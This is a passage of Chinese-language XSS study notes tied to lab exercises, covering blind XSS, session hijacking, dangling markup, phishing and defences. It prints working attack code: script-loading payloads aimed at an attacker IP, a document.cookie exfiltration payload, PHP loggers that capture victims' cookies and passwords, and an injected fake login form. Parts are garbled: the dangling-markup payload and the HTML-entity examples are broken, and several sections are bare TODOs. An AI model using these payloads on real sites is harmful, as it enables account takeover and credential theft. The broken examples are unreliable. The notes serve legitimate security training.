本实验在博客搜索功能中存在反射型跨站脚本（XSS）漏洞。输入内容的反射位置位于模板字符串内，其中尖括号、单引号、双引号均被 HTML 编码，反引号被转义。要完成本实验，需在模板字符串内实施跨站脚本攻击，调用 alert 函数。

### 客户端模板xss攻击

一些网站使用客户端模板框架（例如 AngularJS）来动态渲染网页。如果这些网站以不安全的方式将用户输入嵌入到这些模板中，攻击者可能会注入自己的恶意模板表达式，从而发起 XSS 攻击。

TODO

# Blind XSS

我们通常首先尝试发现 XSS 漏洞是否存在以及漏洞的位置，以此作为 XSS 攻击的起点。然而，在本练习中，我们将处理一种 Blind XSS 漏洞。盲 XSS 漏洞是指在我们无法访问的页面上触发的漏洞。

盲 XSS 漏洞通常发生在只有特定用户（例如管理员）才能访问的表单中。一些潜在示例包括：

* 联系表格
* 评论
* 用户详情
* 支持工单
* HTTP User-Agent 标头

我们看到一个包含多个字段的用户注册页面，所以让我们尝试提交一个 test 用户，看看表单如何处理数据：



我们可以看到，一旦我们提交表单，我们就会收到以下消息：


这意味着我们**无法看到**自己的输入会被如何处理、也无法看到它在浏览器中的呈现效果 —— 因为这些内容只会出现在我们**无权访问**的管理员后台面板中，且**仅对管理员可见**。

在常规（即**非盲**）场景下，我们可以对每个字段逐一测试，直到成功弹出 alert 弹窗，就像我们在整个模块中一直在做的那样。

但在当前场景中，我们无法访问管理员后台，那么在**完全看不到输出是如何被处理**的情况下，我们该如何检测出 XSS 漏洞？

为此，我们可以使用一段 JavaScript 代码向我们的服务器发送 HTTP 请求。如果这段 JavaScript 代码被执行，我们的机器就会收到响应，从而确认该页面确实存在漏洞。

然而，这又引出了两个问题：

1. 我们如何知道哪个具体字段是易受攻击的？由于任何字段都可能执行我们的代码，因此我们无法知道是哪个字段执行了我们的代码。
2. 我们如何知道要使用什么XSS有效载荷？因为页面可能存在漏洞，但有效载荷可能不起作用？

在 HTML 中，我们可以在 <script> 标签内编写 JavaScript 代码，但我们也可以通过提供远程脚本的 URL 来包含该脚本，如下所示：

```html
<script src="http://OUR_IP/script.js"></script>

```

因此，我们可以利用这一点来执行位于我们虚拟机上的远程 JavaScript 文件。我们可以将请求的脚本名称从 script.js 更改为我们要注入的字段名称，这样，当我们在虚拟机中收到请求时，就可以识别出执行脚本的易受攻击的输入字段，如下所示：

```html
<script src="http://OUR_IP/username"></script>
```

如果我们收到对 /username 的请求，那么我们就知道 username 段存在 XSS 漏洞，以此类推。由此，我们可以开始测试各种加载远程脚本的 XSS 攻击载荷，看看哪些载荷会向我们发送请求。以下是一些我们可以从 [PayloadsAllTheThings 库](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)中使用的示例：

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

正如我们所见，各种攻击载荷都以类似 '> 这样的注入语句开头，其是否有效取决于后端如何处理我们的输入。如果我们能够访问源代码（例如，在 DOM XSS 漏洞中），就可以精确地编写成功注入所需的攻击载荷。这就是为什么盲 XSS 攻击在 DOM XSS 漏洞中成功率更高的原因。

在开始发送有效载荷之前，我们需要在虚拟机上启动一个监听器，可以使用 netcat 或 php 所示：

```shell
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

现在我们可以逐一测试这些有效载荷，方法是将其中一个有效载荷应用于所有输入字段，并在 IP 地址后附加字段名称，如前所述，例如：

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

提交表单后，我们稍等片刻，检查终端是否有任何请求调用我们的服务器。如果没有请求调用，我们可以继续执行下一个有效载荷，以此类推。一旦收到对服务器的请求，我们应该记录下上次使用的 XSS 有效载荷，并将其标记为有效载荷，同时记录下调用服务器的输入字段名称，将其标记为易受攻击的输入字段。

一旦我们找到可用的 XSS 有效载荷并确定了易受攻击的输入字段，我们就可以进行 XSS 利用并执行会话劫持攻击。

会话劫持攻击与网络钓鱼攻击非常相似。它需要一个 JavaScript 有效载荷来向我们发送所需数据，以及一个托管在我们服务器上的 PHP 脚本来捕获和解析传输的数据。

我们可以使用多个 JavaScript 有效负载来获取会话 cookie 并将其发送给我们，如 [PayloadsAllTheThings ](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)所示：

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
//或者
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

使用这两个有效载荷中的任何一个都可以向我们发送 cookie，但我们将使用第二个有效载荷，因为它只是向页面添加一张图片，看起来可能不太具有恶意性，而第一个有效载荷会导航到我们的 cookie 抓取 PHP 页面，这可能看起来很可疑。

我们可以将上述任何 JavaScript 有效负载写入 script.js ，该文件也将托管在我们的虚拟机上

现在，我们可以将之前发现的 XSS 有效负载中的 URL 更改为使用 script.js

```javascript
<script src=http://OUR_IP/script.js></script>
```

我们可以将以下 PHP 脚本保存为 index.php ，然后重新运行 PHP 服务器：

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

现在，我们等待受害者访问存在漏洞的页面并查看我们的 XSS 有效载荷。一旦他们查看，我们的服务器将收到两个请求，一个请求针对 script.js ，而 script.js 又会发出另一个包含 cookie 值的请求：

```shell
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

最后，我们可以利用这个 cookie 在 login.php 页面上访问受害者的帐户。为此，在访问 /hijacking/login.php 后，我们可以在 Firefox 中按 Shift+F9 打开开发者工具中的 Storage ”栏。然后，我们可以点击右上角的 + 按钮，添加我们窃取的 cookie，其中 Name = 是等号前面的部分， Value 是 = 后面的部分：



设置好 cookie 后，我们可以刷新页面，然后就能以受害者的身份访问页面：


# 悬垂标记注入 (Dangling Markup Injection) 技术

在无法实现完整跨站脚本攻击 (XSS) 的情况下（如受限于严格的内容安全策略 CSP 或输入过滤），悬垂标记注入是一种用于跨域捕获页面敏感数据的有效技术。其核心在于利用浏览器对 HTML 属性解析的容错性，将后续的页面内容“吞噬”并作为 URL 参数发送至攻击者控制的服务器。

悬垂标记注入利用了 HTML 标签属性未闭合的状态（即“悬垂”状态）。浏览器在解析时会持续寻找匹配的闭合引号，期间经过的所有字符都会被视为该属性值的一部分。

注入场景示例

假设目标应用存在一个未过滤 `"` 和 `>` 的输入点，其 HTML 结构如下：

```html
<input type="text" name="input" value="[CONTROLLABLE DATA]">
<table id="user-info">
    <tr><td>CSRF Token:</td><td>abcdef123456</td></tr>
</table>
```

攻击者通过注入以下 Payload 破坏原有结构并引入新的外部请求标签：

```html
">

    <tr><td>CSRF Token:</td><td>abcdef123456</td></tr>
</table>
... ' >
```

浏览器会发起一个指向 attacker.com 的 GET 请求。由于 src 属性未闭合，整个 <table> 及其中的 CSRF Token 都会被 URL 编码后作为 data 参数的内容发送。

任何可以发起外部请求的属性（如 src, href, background, action 等）均可被利用。

### 案例1

实验：[反射型 XSS 攻击，受非常严格的 CSP 保护，存在悬空标记攻击](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)

本实验室采用严格的内容安全策略 (CSP)，防止浏览器从外部域加载子资源。

TODO

# 手动工具

[XSS 速查表](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)   [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS Injection/README.md) 或 [PayloadBox](https://github.com/payloadbox/xss-payload-list)

# 自动工具

[XSS Strike](https://github.com/s0md3v/XSStrike) 、 [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS) 和 [XSSer](https://github.com/epsylon/xsser)

# exploit

证明发现跨站脚本漏洞的传统方法是使用 alert() 函数创建一个弹窗。这并不是因为 XSS 与弹窗有任何关联；它只是一种证明你可以在给定域名上执行任意 JavaScript 代码的方法。你可能会注意到有些人使用 alert(document.domain) 。这是一种明确 JavaScript 在哪个域名上执行的方法。有时，您可能希望更进一步，通过提供完整的漏洞利用代码来证明 XSS 漏洞确实存在威胁。在本节中，我们将探讨三种最常见且最有效的 XSS 漏洞利用方法。---

## 利用跨站脚本窃取 cookie

窃取 Cookie 是利用 XSS 攻击的传统方法。大多数 Web 应用程序都使用 Cookie 来处理会话。您可以利用跨站脚本漏洞，将受害者的 Cookie 发送到您自己的域，然后手动将这些 Cookie 注入浏览器，从而冒充受害者。在实践中，这种方法有一些明显的局限性：

* 受害者可能尚未登录。
* 许多应用程序使用 HttpOnly 标志向 JavaScript 隐藏其 cookie。
* 会话可能会被锁定到其他因素，例如用户的 IP 地址。
* 在您能够劫持会话之前，会话可能会超时。

## 利用跨站脚本获取密码

如今，许多用户都使用密码管理器自动填充密码。您可以利用此功能，创建一个密码输入框，读取自动填充的密码，并将其发送到您自己的域名。这种技术可以避免大多数与窃取 Cookie 相关的问题，甚至可以访问受害者重复使用相同密码的所有其他帐户。

这种技术的主要缺点是，它只对拥有密码管理器并支持密码自动填充功能的用户有效。（当然，如果用户没有保存密码，你仍然可以尝试通过现场钓鱼攻击获取他们的密码，但效果并不完全相同。）

## 利用跨站脚本绕过 CSRF 保护

跨站脚本（XSS） 能够让攻击者执行几乎所有合法用户在网站上可以执行的操作。通过在受害者浏览器中执行任意 JavaScript 代码，XSS 允许你以受害者用户的身份执行一系列操作。例如，你可以诱使受害者发送消息、接受好友请求、向代码仓库植入后门程序，甚至转账比特币。
部分网站允许已登录用户无需重新输入密码即可修改邮箱地址。如果你在这类网站上发现了 XSS 漏洞，就可以利用它窃取 CSRF 令牌。拿到令牌后，你就能将受害者的邮箱修改为自己可控的地址，随后触发密码重置流程，从而接管该账号。
这类攻击手法将 XSS（用于窃取 CSRF 令牌） 与传统 CSRF 攻击的目标功能结合在了一起。传统 CSRF 是一种 **“单向” 漏洞 **—— 攻击者只能诱使受害者发送请求，却无法查看响应内容；而 XSS 能够实现 **“双向” 通信 **，让攻击者既可以发送任意请求，也能读取响应内容，由此形成的混合攻击可以绕过反 CSRF 防护机制。

>
> Anti-CSRF Token 的防御逻辑建立在同源策略 (Same-Origin Policy, SOP) 能够阻止跨域数据读取的假设之上。该机制默认外部域名的恶意网页无法获取目标域生成的验证令牌。
>
> 然而，XSS 漏洞的本质是代码注入，恶意脚本直接运行在目标应用程序自身的源 (Origin) 内部。在此状态下，同源策略的安全边界被从内部突破。恶意脚本与合法的页面代码享有完全等同的文档对象模型 (DOM) 访问权和 XMLHttpRequest 发起权。因此，CSRF Token 对 XSS 攻击者而言呈完全透明状态，失去了作为身份验证隔离屏障的安全价值。


## 网络钓鱼

网络钓鱼攻击通常利用看似合法的信息诱骗受害者将敏感信息发送给攻击者。一种常见的跨站脚本攻击方式是注入虚假的登录表单，将登录信息发送到攻击者的服务器，攻击者随后可以利用这些信息以受害者的名义登录，从而控制受害者的帐户并获取其敏感信息。

一个简单的在线图片查看器，我们可以输入图片的 URL，它会显示该图片：


这种图像查看器在在线论坛和类似的 Web 应用程序中很常见。由于我们可以控制 URL，我们可以先使用之前用过的基本 XSS 攻击载荷。

```javascript
<script>alert(window.origin)</script>
```

但是当我们尝试这个载荷时，发现没有任何代码被执行，只显示了一个 dead image url 图标：


因此，我们必须运行之前学过的 XSS 发现过程来找到有效的 XSS 负载。

一旦我们找到有效的 XSS 攻击载荷，就可以进行网络钓鱼攻击。要执行 XSS 网络钓鱼攻击，我们必须注入一段 HTML 代码，该代码会在目标页面上显示一个登录表单。此表单会将登录信息发送到我们正在监听的服务器，这样一旦用户尝试登录，我们就能获取他们的凭据。

我们可以轻松找到基本登录表单的 HTML 代码，也可以编写自己的登录表单。以下示例应该呈现一个登录表单：

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

接下来，我们需要准备 XSS 代码并在存在漏洞的表单上进行测试。要向存在漏洞的页面写入 HTML 代码，我们可以使用 JavaScript 函数 ` document.write() ，并将其用于我们在 XSS 发现步骤中找到的 XSS 有效载荷中。将 HTML 代码压缩成一行并将其添加到 write 函数中后，最终的 JavaScript 代码应如下所示

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');

```

现在我们可以使用 XSS 有效载荷注入这段 JavaScript 代码（即，不再运行 alert(window.origin) ` JavaScript 代码）。在本例中，我们利用的是 Reflected XSS 漏洞，因此我们可以复制 URL 及其参数中的 XSS 有效载荷，就像我们在 Reflected XSS 部分所做的那样。当我们访问恶意 URL 时，页面应该如下所示：


当受害者尝试登录我们注入的登录表单时，我们会窃取他们的登录凭据。如果您尝试登录该表单，可能 This site can't be reached 错误提示。这是因为，正如前面提到的，我们的 HTML 表单会将登录请求发送到我们的 IP 地址，而我们的 IP 地址应该处于监听连接的状态。如果我们没有监听连接，就会收到“此 site can't be reached 错误提示。

那么，让我们启动一个简单的 netcat 服务器，看看当有人尝试通过表单登录时会收到什么样的请求。为此，我们可以在 Pwnbox 上监听 80 端口，如下所示：

```shell
$ sudo nc -lvnp 80
listening on [any] 80 ...
```

现在，让我们尝试使用凭据 test:test ，并检查我们得到的 netcat 输出

```shell
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

正如我们所见，我们可以从 HTTP 请求 URL（ /?username=test&password=test ）中获取凭据。如果任何受害者尝试使用此表单登录，我们将获得他们的凭据。

然而，由于我们仅使用 netcat 监听器进行监听，它无法正确处理 HTTP 请求，受害者会收到 Unable to connect 错误，这可能会引起怀疑。因此，我们可以使用一个简单的 PHP 脚本来记录 HTTP 请求中的凭据，然后将受害者返回到原始页面，而无需任何注入。在这种情况下，受害者可能会认为自己已成功登录，并会按预期使用图像查看器。

以下 PHP 脚本应该可以满足我们的需求，我们将把它写入虚拟机上的一个名为 index.php 文件，并将其放置在 /tmp/tmpserver/ 下

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

现在我们的 index.php 文件已经准备就绪，我们可以启动一个 PHP 监听服务器，用它来代替之前使用的基本 netcat 监听器：

```shell
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ vi index.php #at this step we wrote our index.php file
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

我们来尝试登录注入的登录表单，看看会发生什么。我们发现被重定向到了原始的图像查看器页面

如果我们检查 Pwnbox 中的 creds.txt 文件，会发现我们确实获取到了登录凭据：

```shell
$ cat creds.txt
Username: test | Password: test
```

## 案例1

实验：[利用跨站脚本攻击窃取 Cookie](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

本实验在博客评论功能中存在存储型跨站脚本攻击 (XSS) 漏洞。模拟受害者用户可以查看所有已发布的评论。要解决此实验，请利用该漏洞窃取受害者的会话 cookie，然后使用该 cookie 冒充受害者。

TODO

## 案例2

实验：[利用跨站脚本攻击窃取密码](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)

本实验包含博客评论功能中的存储型跨站脚本攻击 (XSS) 漏洞。模拟受害者用户可以查看所有已发布的评论。要完成此实验，请利用此漏洞窃取受害者的用户名和密码，然后使用这些凭据登录受害者的帐户。

TODO

## 案例3

实验：[利用 XSS 绕过 CSRF 防御](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

本实验的博客评论功能中存在一个存储型跨站脚本攻击 (XSS) 漏洞。要完成此实验，请利用该漏洞窃取一个跨站请求伪造 (CSRF) 令牌，然后您可以使用该令牌更改查看博客文章评论的用户的电子邮件地址。

TODO

# 防御

预防 XSS 漏洞最重要的方面是在前端和后端都进行正确的输入清理和验证。除此之外，还可以采取其他安全措施来帮助预防 XSS 攻击。

## 前端

由于 Web 应用程序的前端是获取大部分（但并非全部）用户输入的地方，因此必须使用 JavaScript 在前端对用户输入进行清理和验证。

### 输入验证

如果电子邮件地址格式无效，Web 应用程序将不允许我们提交表单。这是通过以下 JavaScript 代码实现的：

```javascript
function validateEmail(email) {
    const re = /^(([^<>()[\]\\.,;:\s@\"]+(\.[^<>()[\]\\.,;:\s@\"]+)*)|(\".+\"))@((\[[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\])|(([a-zA-Z\-0-9]+\.)+[a-zA-Z]{2,}))$/;
    return re.test($("#login input[name=email]").val());
}
```

我们可以看到，这段代码正在测试 email 输入字段，并返回 true 或 false ，以判断它是否符合电子邮件格式的正则表达式验证。

### 输入清理

除了输入验证之外，我们还应始终确保不允许任何包含 JavaScript 代码的输入，方法是转义所有特殊字符。为此，我们可以使用 DOMPurify JavaScript 库，如下所示：

```javascript
<script type="text/javascript" src="dist/purify.min.js"></script>
let clean = DOMPurify.sanitize( dirty );
```

这将使用反斜杠 \ 转义任何特殊字符，这应该有助于确保用户不会发送任何包含特殊字符（如 JavaScript 代码）的输入，从而防止 DOM XSS 等漏洞。

### 直接输入

我们应该始终确保绝不在某些 HTML 标签内直接使用用户输入，例如：

1. JavaScript 代码 <script></script>
2. CSS 样式代码 <style></style>
3. 标签/属性字段 <div name='INPUT'></div>
4. HTML 注释 <!-- -->

如果用户输入的内容出现在上述任何示例中，都可能注入恶意 JavaScript 代码，从而导致跨站脚本攻击 (XSS) 漏洞。此外，我们应该避免使用允许更改 HTML 字段原始文本的 JavaScript 函数，例如:

* DOM.innerHTML
* DOM.outerHTML
* document.write()
* document.writeln()
* document.domain

以及以下 jQuery 函数：

* html()
* parseHTML()
* add()
* append()
* prepend()
* after()
* insertAfter()
* before()
* insertBefore()
* replaceAll()
* replaceWith()

由于这些函数会将原始文本写入 HTML 代码，因此如果用户输入任何内容，都可能包含恶意 JavaScript 代码，从而导致 XSS 漏洞。


## 后端

### 输入验证

后端输入验证与前端非常相似，它使用正则表达式或库函数来确保输入字段符合预期。如果不匹配，后端服务器将拒绝该输入，并且不会显示它。

PHP 后端电子邮件验证的示例如下：

```php
if (filter_var($_GET['email'], FILTER_VALIDATE_EMAIL)) {
    // do task
} else {
    // reject input - do not display it
}
```

对于 NodeJS 后端，我们可以使用前面提到的前端相同的 JavaScript 代码。

### 输入清理

在输入过滤方面，后端扮演着至关重要的角色，因为前端的输入过滤很容易被绕过，攻击者可以通过发送自定义的 GET 或 POST 请求来绕过过滤。幸运的是，各种后端语言都有非常强大的库，可以正确地过滤任何用户输入，从而确保不会发生注入攻击。

例如，对于 PHP 后端，我们可以使用 addslashes 函数，通过使用反斜杠转义特殊字符来清理用户输入：

```php
addslashes($_GET['email'])
```

无论如何，绝对不应该直接在页面上显示用户输入（例如 $_GET['email'] ），因为这可能会导致 XSS 漏洞。

### 输出编码

后端开发中另一个需要重点关注的重要点是输出编码（Output Encoding）。这意味着我们必须将所有特殊字符转换为对应的 HTML 实体编码 —— 如果我们需要完整展示用户输入的内容，同时又不引入 XSS 漏洞，这种处理方式会起到关键作用。
对于 PHP 后端而言，我们可以使用 htmlspecialchars 或 htmlentities 函数：这两个函数会将特定特殊字符编码为对应的 HTML 实体（例如，把 < 编码成 \&lt;）。如此一来，浏览器会正确显示这些字符，且不会引发任何形式的注入攻击。

### 服务器配置

除了上述方法之外，还有一些后端 Web 服务器配置可以帮助防止 XSS 攻击，例如：

* 在整个域中使用 HTTPS。
* 使用 XSS 防护标头。
* 使用适合页面的 Content-Type，例如 X-Content-Type-Options=nosniff 。
* 使用 Content-Security-Policy 选项，例如 script-src 'self' ，该选项仅允许本地托管的脚本。
* 使用 HttpOnly 和 Secure cookie 标志来阻止 JavaScript 读取 cookie，并仅通过 HTTPS 传输 cookie。

除上述内容外，拥有良好的 Web Application Firewall (WAF) 可以显著降低 XSS 攻击的风险，因为它会自动检测通过 HTTP 请求进行的任何类型的注入，并自动拒绝此类请求。此外，一些框架（例如 ASP.NET） 提供了内置的 XSS 保护。


## 输出时对数据进行编码

编码操作应当**在将用户可控数据写入页面的前一刻直接执行**，因为**写入的上下文环境**决定了需要使用的编码类型。例如，JavaScript 字符串内的值所需的转义方式，与 HTML 上下文环境中的转义方式完全不同。

HTML 上下文

对于非白名单内的数值，应将其转换为 HTML 实体：

- `<` 转换为：`<`
- `>` 转换为：`>`

JavaScript 字符串上下文

非字母数字类的值应进行 Unicode 转义：

- `<` 转换为：`\u003c`
- `>` 转换为：`\u003e`

多层编码场景

有时你需要按照**正确的顺序**应用多层编码。例如，要将用户输入安全地嵌入事件处理器中时，需要同时处理 JavaScript 上下文和 HTML 上下文——因此需先对输入做 Unicode 转义，再做 HTML 编码：

```HTML
<a href="#" onclick="x='This string needs two layers of escaping'">test</a>
```

TODO

https://portswigger.net/web-security/cross-site-scripting/preventing


# 实战

## 案例1

启动环境，想办法，以管理员身份打开首页，就能获得flag值了呢
